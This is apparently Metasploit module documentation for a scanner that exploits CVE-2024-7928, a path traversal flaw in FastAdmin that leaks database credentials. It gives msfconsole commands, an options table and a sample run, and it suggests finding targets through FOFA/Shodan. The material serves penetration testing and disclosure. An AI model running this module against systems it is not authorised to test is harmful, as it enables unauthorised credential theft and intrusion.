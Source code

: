 ## Vulnerable Application

This module exploits a path traversal vulnerability in FastAdmin versions up to `1.3.3.20220121`, specifically within the `/index/ajax/lang` endpoint.
By manipulating the `lang` parameter, unauthenticated remote attackers can access arbitrary files on the server, such as configuration files containing sensitive credentials.
The vulnerability (CVE-2024-7928) has been publicly disclosed and is fixed in version `1.3.4.20220530`.

- Affected version: <= 1.3.3.20220121
- Fixed version: 1.3.4.20220530
- CVE: [CVE-2024-7928](https://nvd.nist.gov/vuln/detail/CVE-2024-7928)
- Advisory: https://s4e.io/tools/fastadmin-path-traversal-cve-2024-7928

## Verification Steps

1. Install the vulnerable version of FastAdmin or find targets using FOFA/Shodan.
2. Start `msfconsole`
3. Run: `use auxiliary/scanner/http/fastadmin_path_traversal_cve_2024_7928`
4. Set `RHOSTS`
5. Run the module with `run`
6. On success, database credentials should be printed to the console

## Options

```
msf6 auxiliary(scanner/http/fastadmin_path_traversal_cve_2024_7928) > show options

Module options (auxiliary/scanner/http/fastadmin_path_traversal_cve_2024_7928):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.0.2.10       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to FastAdmin instance
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host
```

## Scenarios

### FastAdmin 1.3.3.20220121 deployed with default configuration

```
msf6 > use auxiliary/scanner/http/fastadmin_path_traversal_cve_2024_7928
msf6 auxiliary(scanner/http/fastadmin_path_traversal_cve_2024_7928) > set RHOSTS 192.0.2.10
rhosts => 192.0.2.10
msf6 auxiliary(scanner/http/fastadmin_path_traversal_cve_2024_7928) > run

[+] 192.0.2.10 is vulnerable!
[+] DB Type   : mysql
[+] Hostname  : <redacted>
[+] Database  : fastadmin
[+] Username  : root
[+] Password  : <redacted>
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```


